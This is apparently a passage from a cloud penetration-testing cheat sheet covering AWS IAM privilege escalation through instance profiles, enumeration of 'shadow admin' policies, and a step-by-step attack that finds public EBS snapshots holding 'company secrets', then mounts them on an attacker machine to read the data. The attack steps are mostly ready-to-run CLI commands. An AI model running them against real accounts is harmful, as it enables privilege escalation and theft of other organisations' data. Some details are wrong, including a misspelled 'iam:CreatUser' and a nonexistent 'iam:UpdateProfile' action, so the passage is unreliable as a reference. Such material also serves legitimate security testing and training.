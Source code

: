 ```bash
aws iam add-role-to-instance-profile --role-name YourNewRole --instance-profile-name YourNewRole-Instance-Profile
# Associate Instance Profile with instance you want to use
aws ec2 associate-iam-instance-profile --instance-id YourInstanceId --iam-instance-profile Name=YourNewRole-Instance-Profile

# Get assumed roles in instance
aws --profile test sts get-caller-identity

# Shadow admin
aws iam list-attached-user-policies --user-name {}
aws iam get-policy-version --policy-arn provide_policy_arn --version-id $(aws iam get-policy --policy-arn provide_policy_arn --query 'Policy.DefaultVersionId' --output text)
aws iam list-user-policies --user-name {}
aws iam get-user-policy --policy-name policy_name_from_above_command --user-name {} | python -m json.tool
# Vulnerables policies:
iam:CreatUser
iam:CreateLoginProfile
iam:UpdateProfile
iam:AddUserToGroup
```

## EBS

### Find secrets in public EBS

```
# Dufflebag https://github.com/bishopfox/dufflebag
```

### **EBS attack example**

```
# Discover EBS Snapshot and mount it to navigate
- Obtaning public snapshot name
aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"
- Obtaining zone and instance
aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine
- Create a new volume of it
aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>
- Attach to an EC2 instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>
    - It takes some time, to see the status:
    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>
- Once is mounted in EC2 instance, check it, mount it and access it:
sudo lsblk
sudo mount /dev/xvdh1 /mnt
cd /mnt/home/user/companydata
```
